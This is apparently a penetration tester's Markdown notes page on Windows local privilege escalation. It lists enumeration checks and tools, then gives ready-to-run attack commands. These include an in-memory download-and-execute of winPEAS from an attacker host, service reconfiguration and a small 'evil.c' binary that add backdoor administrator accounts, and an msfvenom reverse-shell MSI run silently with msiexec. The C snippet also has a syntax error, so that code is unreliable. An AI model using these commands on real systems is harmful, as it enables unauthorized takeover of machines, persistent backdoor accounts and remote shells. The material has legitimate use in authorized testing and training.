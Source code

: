 ```yaml
---
title: Windows Privilege Escalation
---
```


Local [[notes/mitre-attack/privilege-escalation]] on [[notes/windows/index]].

Common checks ([source](http://web.archive.org/web/20230804173720/https://scribe.rip/@specterops/challenges-in-post-exploitation-workflows-2b3469810fe9)):

- processes including integrity levels and backing file
- service with unquoted service path
- service with writable backing file
- service with insecure security descriptor
- scheduled task with writable backing file
- named pipes including originating processes and SDDLs
- open TCP/UDP ports and their originating processes
- drivers currently installed, including backing files
- existing handles with overly permissive access rights
- recent temporary files and their SDDL
- various registry settings

Run a ton of checks.

=== "[[notes/tools/winpeas]]"
    ~~~ powershell
    $a=[System.Reflection.Assembly]::Load([byte[]](iwr -useb 'http://attacker.corp.local/winpeas-x64.exe' | Select-Object -ExpandProperty Content))
    [winPEAS.Program]::Main('wait')
    ~~~

Test if credentials are valid.

~~~ powershell
$c = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList '.\nobody',(ConvertTo-SecureString -AsPlainText -Force 'passw0rd')
Start-Process -Credential $c -FilePath whoami.exe -ArgumentList '/all' -WindowStyle hidden -Wait -RedirectStandardOutput out.txt -RedirectStandardError err.txt
~~~

Other tools:

- [Seatbelt](https://github.com/GhostPack/Seatbelt)

Untested tools:

- [PipeViewer](https://github.com/cyberark/PipeViewer), shows detailed information about named pipes on Windows
- [Crassus](https://github.com/vullabs/Crassus)
- [SharpUp](https://github.com/ghostpack/sharpup), C# port of various [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) functions
- [beroot](https://github.com/AlessandroZ/BeRoot)
- [Windows Exploit Suggester Next Generation ](https://github.com/bitsadmin/wesng), checks Windows version for known vulnerabilities, processes output of `systeminfo` on Linux
- [ProtectionChecks.ps1](https://gist.github.com/jsecurity101/6b9e87f5a428f31d41ffc8c1ee05a999), checks whether a process is running as PPL

References:

- [book.hacktricks.xyz/windows/checklist-windows-privilege-escalation](https://book.hacktricks.xyz/windows/checklist-windows-privilege-escalation)
- [exploit-notes.hdks.org/exploit/windows/privilege-escalation](https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/)
- [Escalating Privileges via Third-Party Windows Installers](https://web.archive.org/web/20230720190244/https://www.mandiant.com/resources/blog/privileges-third-party-windows-installers)
- [The Print Spooler Bug that Wasn’t in the Print Spooler - Maddie Stone & James Forshaw - OffensiveCon23](https://www.youtube.com/watch?v=H03b0UaogVs), exploiting Windows side-by-side assemblies
- [Awesome Windows logical bugs](https://github.com/sailay1996/awesome_windows_logical_bugs)
- [Payloads all the Things - Windows Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

# Insecure File Permissions

Search with [AccessChk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) for writable files.

~~~ bat
accesschk.exe -accepteula -nobanner -u -w -s $env:USERNAME C:\
~~~

Especially check writable files and directories in the system path.
This can be exploited with e.g. [StorSvc](https://github.com/blackarrowsec/redteam-research/tree/master/LPE%20via%20StorSvc).

~~~ bat
reg.exe query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" -v Path
~~~

Check the permissions the current user has on a file.

=== "builtin"
    ~~~ bat
    icacls.exe "C:\Program Files\Example\Service.exe"
    ~~~

    An output like `BUILTIN\Users:(I)(F)` is quiet bad, it means any user can overwrite it.

    Mask | Permissions
    -----|------------
    F    | Full access
    M    | Modify access
    RX   | Read and execute access
    R    | Read-only access
    W    | Write-only access

=== "PowerShell"
    ~~~ powershell
    Get-Acl "C:\Program Files\Example\Service.exe"
    ~~~

Take file ownership and grant yourself full access.

~~~ bat
takeown.exe /F .\example.exe
cacls.exe .\example.exe /E /G %USERNAME%:F
~~~

Untested tools:

- [UserWritableLocations.ps1](https://gist.github.com/hinchley/ade9528e5ce986e9a8131489ad852789)
- [find_writable.ps1](https://github.com/0xC0D1F1ED/find_writable_files/blob/master/find_writable.ps1)

# Services

Get the current service status including the PID.

~~~ bat
sc.exe queryex snmptrap
~~~

Get the current service configuration.

~~~ bat
sc.exe qc snmptrap
~~~

## Insecure Service Security Descriptor

Set the account to `NT Authority\System`.

~~~ bat
sc.exe config snmptrap obj= "NT AUTHORITY\System"
~~~

Then change the executable to a command that adds a local admin.

~~~ bat
sc.exe config snmptrap binPath= "cmd.exe /c net user hacker P@ssw0rd /add && net localgroup administrators hacker /add"
~~~

References:

- [Viewing Service ACLs](https://web.archive.org/web/20230131040322/https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/)

## Unquoted Service Path

The service must have a space in the absolute path to its executable and the path must not be enclosed in quotation marks.
Given the path `C:\Program Files\My Program\My Service\service.exe` check if you can write any of the following files:

~~~
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
~~~

If that's the case, place your malicious binary there and wait for the service to restart.

## Writable Service Binary

Replace the service binary with an executable that adds a new local admin.

`./evil.c`:

~~~ c
#include <stdlib.h>

int main() {
  system("net user backdoor passw0rd /add");
  system("net localgroup administrators backdoor /add");
  return 0:
}
~~~

If you have `SeShutdownPrivilege` reboot the system, otherwise wait for the service to restart.

~~~ bat
shutdown.exe /r /t 0
~~~

# Always Install Elevated

If the `AlwaysInstallElevated` registry key is set to `1`, unprivileged users can run MSI installers with admin privileges.

~~~ bat
reg.exe query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg.exe query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
~~~

Generate a reverse shell payload.

~~~ bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.196 LPORT=7101 -f msi -o ./pwn.msi
~~~

Execute the MSI.

~~~ bat
msiexec.exe /quiet /qn /i .\pwn.msi
~~~
